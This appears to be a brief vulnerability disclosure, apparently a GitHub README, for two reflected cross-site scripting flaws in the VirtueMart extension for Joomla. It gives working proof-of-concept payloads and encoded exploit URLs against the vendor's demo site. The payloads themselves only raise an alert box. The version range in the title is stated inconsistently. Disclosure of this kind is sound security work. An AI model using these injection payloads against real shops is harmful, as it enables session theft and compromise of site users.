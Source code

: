 # Cross Site Scripting (XSS) in VirtueMart versions before < 4.4.10 for Joomla!

**CVE Link:** Pending

**VirtueMart:** https://virtuemart.net/download

## Introduction

### XSS 1
A unauthenticated reflected XSS vulnerability in VirtueMart extension 1.0.15 - 4.4.10 for Joomla was discovered.

#### POC
Payload: `fghj"><img src=x onerror="self.alert('XSS POC')" class=test>`

Final Payload: https://demo.virtuemart.net/?Itemid=606&keyword=fghj%2522%253E%253Cimg%2520src%3Dx%2520onerror%3D%2522self.alert(%27XSS%2520POC%27)%2522%2520class%3Dtest%253E&option=com_virtuemart&view=category&virtuemart_category_id=13

![Alt text](VirtueMart_XSS-0.png)

### XSS 2

#### POC
Payload: `&#39;&#34;&gt;&lt;img/src/onerror=.1|alert``&gt;`

Final Payload: https://demo.virtuemart.net/list-orders.html?layout=list&view=%26%2339%3B%26%2334%3B%26gt%3B%26lt%3Bimg%2Fsrc%2Fonerror%3D.1%7Calert%60%60%26gt%3B

![Alt text](VirtueMart_XSS-1.png)
